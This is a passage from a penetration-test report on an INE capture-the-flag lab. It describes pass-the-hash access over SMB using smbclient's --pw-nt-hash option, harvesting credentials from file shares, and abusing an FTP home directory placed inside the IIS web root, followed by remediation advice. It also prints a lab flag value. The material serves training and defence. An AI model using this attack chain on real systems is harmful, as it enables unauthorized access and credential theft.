- **Affected System**: `target.ine.local` (`10.5.29.82` / SMB Port 445).
- **Observed Evidence**: The presence of `leaked-hashes.txt` on `HRDocuments` exposed user NTLM hashes. Supplying `nancy`'s hash (`[REDACTED]`) to `smbclient` with `--pw-nt-hash` granted immediate authenticated access to `ITResources`.
- **Security Impact**: Allows attackers who recover password hashes from memory, backups, or misconfigured shares to authenticate directly without cracking the hashes.
- **Remediation**: Migrate authentication protocols to Kerberos, disable legacy NTLMv1/NTLMv2 authentication where feasible via Group Policy, restrict administrative token exposure across hosts, and secure file shares against unauthorized access.

#### VULN-03: Plaintext Credentials Stored in Accessible Network Share
- **CWE Identifier**: [CWE-312: Cleartext Storage of Sensitive Information](https://cwe.mitre.org/data/definitions/312.html) & [CWE-522: Insufficiently Protected Credentials](https://cwe.mitre.org/data/definitions/522.html)
- **Severity Rating**: **Medium**
- **Affected System**: `target.ine.local` (`10.5.29.82` / Share `ITResources`).
- **Observed Evidence**: A text file named `hint.txt` contained valid plaintext credentials (`david:[REDACTED]`).
- **Security Impact**: Provides adversaries with valid credentials across other network services without requiring brute-force or exploitation.
- **Remediation**: Implement enterprise secret management vaults, prohibit hardcoded plaintext credentials in network shares and scripts, and perform regular automated file share scanning for credential patterns.

#### VULN-04: FTP Service Rooted Directly in Web Document Root (`wwwroot`)
- **CWE Identifier**: [CWE-284: Improper Access Control](https://cwe.mitre.org/data/definitions/284.html) & [CWE-732: Incorrect Permission Assignment for Critical Resource](https://cwe.mitre.org/data/definitions/732.html)
- **Severity Rating**: **High**
- **Affected System**: `target.ine.local` (`10.5.29.82` / FTP Port 21 & IIS Port 80).
- **Observed Evidence**: Authenticating via FTP as `david` placed the session directly into `C:\inetpub\wwwroot\`, exposing `iisstart.htm`, `iis-85.png`, and `flag3.txt`.
- **Security Impact**: Merging file transfer service directories with active web server document roots enables attackers to read sensitive web application configuration files and upload executable web scripts (e.g., ASP/ASPX webshells) directly into web-executable space.
- **Remediation**: Isolate FTP home directories from web document roots, enforce dedicated chroot jail / user isolation in IIS FTP Server, and disable script execution permissions in directories writable by non-administrative users.

---

## 13. Security Lessons Learned

1. **Pass-the-Hash Circumvents Password Complexity**:
   Enforcing complex password requirements does not protect against lateral compromise if adversaries acquire NTLM hashes. Because NTLM is a challenge-response protocol that relies on the hash as the proof of identity, any acquired hash functions as a password equivalent. Organizations must phase out NTLM in favor of Kerberos and enforce Protected Users security groups.

2. **Dangers of Cross-Protocol Shared Storage**:
   Configuring FTP user home directories inside the web root creates critical attack chains. When an attacker acquires FTP credentials, access to the web document root allows reading source files and weaponizing the upload capability into remote command execution. Storage roots for auxiliary services must be isolated from application execution directories.

3. **In-Transit and At-Rest Credential Governance**:
   Unencrypted password dictionaries, hash lists, and hint files left on departmental shares represent single-point failures in enterprise environments. Periodic automated scanning for sensitive file extensions (`.txt`, `.config`, `.bak`, `.kdbx`) on network shares is vital to detect credential leakage before adversaries exploit it.

---

## 14. Prioritized Remediation Roadmap

```text
+---------------------------------------------------------------------------------------------------+
|                                  PRIORITIZED REMEDIATION ROADMAP                                  |
+---------------------------------------------------------------------------------------------------+
| 1. Authentication & Protocol Hardening:                                                           |
|    - Configure Group Policy to restrict and audit NTLM authentication (Network Security: LAN      |
|      Manager authentication level = Send NTLMv2 response only. Refuse LM & NTLM).                 |
|    - Enforce Kerberos authentication across domain and standalone Windows services.               |
|    - Implement account lockout policies across SMB and FTP services.                              |
|                                                                                                   |
| 2. File Share & Secret Isolation:                                                                 |
|    - Audit permissions on 'HRDocuments' and 'ITResources' shares to enforce least privilege.      |
|    - Remove all sensitive files containing credential dumps (leaked-hashes.txt, hint.txt).        |
|    - Prohibit cleartext credential storage across internal shares.                                |
|                                                                                                   |
| 3. Web & FTP Server Architecture Separation:                                                      |
|    - Reconfigure Microsoft FTP Service to isolate user home directories away from                |
|      C:\inetpub\wwwroot.                                                                          |
|    - Ensure web document roots are read-only for service accounts and non-administrative users.   |
|    - Strip script execution permissions on any directory writable by FTP users.                   |
|                                                                                                   |
| 4. Network Perimeter Controls:                                                                    |
|    - Restrict SMB (port 445) and FTP (port 21) access via host firewall to authorized management   |
|      bastions only.                                                                               |
+---------------------------------------------------------------------------------------------------+
```

---

## 15. Evidence and Screenshot Index

All primary evidence has been organized chronologically from initial overview through Flag 4 retrieval:

| # | Filename | Original Source | Description & Key Evidence |
| :---: | :--- | :--- | :--- |
| **01** | `01-lab-overview.png` | `WhatsApp Image 2026-11-18 at 1.36.29 PM (3).jpeg` | INE challenge dashboard displaying 4 of 4 flags captured, objectives, and lab tools. |
| **02** | `02-flag1-tom-smb-login-and-share-enum.png` | `WhatsApp Image 2026-11-18 at 1.36.28 PM (2).jpeg` | Metasploit SMB login module cracking user `tom`'s password (redacted in copy); `smbclient -L` share listing. |
| **03** | `03-flag1-hrdocuments-share-and-file-download.png` | `WhatsApp Image 2026-11-18 at 1.36.28 PM (4).jpeg` | Accessing `HRDocuments` share as `tom`; downloading `flag1.txt` and `leaked-hashes.txt`. |
| **04** | `04-flag1-retrieval.png` | `WhatsApp Image 2026-11-18 at 1.36.28 PM (1).jpeg` | Reading `flag1.txt` to extract Flag 1 (`8365ca4ce11447d4a01307063d6e47ce`). |
| **05** | `05-flag2-nancy-smb-hash-compromise-and-flag2.png` | `WhatsApp Image 2026-11-18 at 1.36.28 PM (6).jpeg` | Pass-the-Hash authentication as `nancy` to `ITResources`; downloading `flag2.txt` and `hint.txt`; Flag 2 extraction. |
| **06** | `06-flag3-hint-investigation.png` | `WhatsApp Image 2026-11-18 at 1.36.28 PM (7).jpeg` | Inspecting `hint.txt` to uncover credentials `david:[REDACTED]` (password redacted in copy). |
| **07** | `07-flag3-david-ftp-compromise-and-flag3.png` | `WhatsApp Image 2026-11-18 at 1.36.29 PM.jpeg` | Authenticated FTP login as `david`, directory listing of IIS document root, and Flag 3 extraction. |
| **08** | `08-flag4-target-compromise-and-flag4.png` | `WhatsApp Image 2026-11-18 at 1.36.29 PM (1).jpeg` | Interactive Windows command shell in `c:\windows\system32\inetsrv>`, `dir` on `C:\`, and `type flag4.txt` extraction. |

---

## 16. References

- [MITRE ATT&CK: Brute Force: Password Spraying (T1110.003)](https://attack.mitre.org/techniques/T1110/003/)
- [MITRE ATT&CK: Use Alternate Authentication Material: Pass the Hash (T1550.002)](https://attack.mitre.org/techniques/T1550/002/)
- [MITRE ATT&CK: Remote Services: SMB/Windows Admin Shares (T1021.002)](https://attack.mitre.org/techniques/T1021/002/)
- [CWE-521: Weak Password Requirements](https://cwe.mitre.org/data/definitions/521.html)
- [CWE-287: Improper Authentication](https://cwe.mitre.org/data/definitions/287.html)
- [CWE-522: Insufficiently Protected Credentials](https://cwe.mitre.org/data/definitions/522.html)
- [CWE-312: Cleartext Storage of Sensitive Information](https://cwe.mitre.org/data/definitions/312.html)
- [CWE-284: Improper Access Control](https://cwe.mitre.org/data/definitions/284.html)
- [Metasploit Documentation: auxiliary/scanner/smb/smb_login](https://docs.metasploit.com/)
